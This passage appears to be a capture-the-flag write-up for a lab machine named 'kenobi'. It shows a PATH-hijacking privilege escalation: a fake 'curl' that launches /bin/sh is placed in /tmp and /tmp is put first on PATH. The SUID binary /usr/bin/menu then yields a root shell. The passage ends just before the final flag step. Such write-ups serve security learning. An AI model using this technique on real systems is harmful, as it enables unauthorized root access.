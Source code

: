lo        Link encap:Local Loopback
          inet addr:127.0.0.1  Mask:255.0.0.0
          inet6 addr: ::1/128 Scope:Host
          UP LOOPBACK RUNNING  MTU:65536  Metric:1
          RX packets:198 errors:0 dropped:0 overruns:0 frame:0
          TX packets:198 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1
          RX bytes:14581 (14.5 KB)  TX bytes:14581 (14.5 KB)
# and it seems its the commands: [1] curl -I localhost [2] uname -r [3] ifconfig
# this shows the binary is running ithout a full path, so as expected, this means its possible for us to 'poison/manipulate' the path:
kenobi@kenobi:~$ cd /tmp
kenobi@kenobi:/tmp$ echo /bin/sh > curl
kenobi@kenobi:/tmp$ chmod 777 curl
kenobi@kenobi:/tmp$ export PATH=/tmp:$PATH
kenobi@kenobi:/tmp$ /usr/bin/menu
***************************************
1. status check
2. kernel version
3. ifconfig
** Enter your choice :1
# id
uid=0(root) gid=1000(kenobi) groups=1000(kenobi),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),113(lpadmin),114(sambashare)

#weve gotten a root shell:)
# essentially what happened, is when the 1st command 'curl' is called, rather than calling the actual curl command, its calling our '/bin/sh' command with SUID permissions - as we manipulated the path to rather use the one from our current directory
        # the shell will have root privileges due to the SUID bit set
		# path manipulation = put the location of the 'curl' command  (aka /bin/sh) to our current location (/tmp)
        # binary therefore ran /tmp/curl (/bin/sh) instead of the actual curl command!
# to get the final flag I did the following:
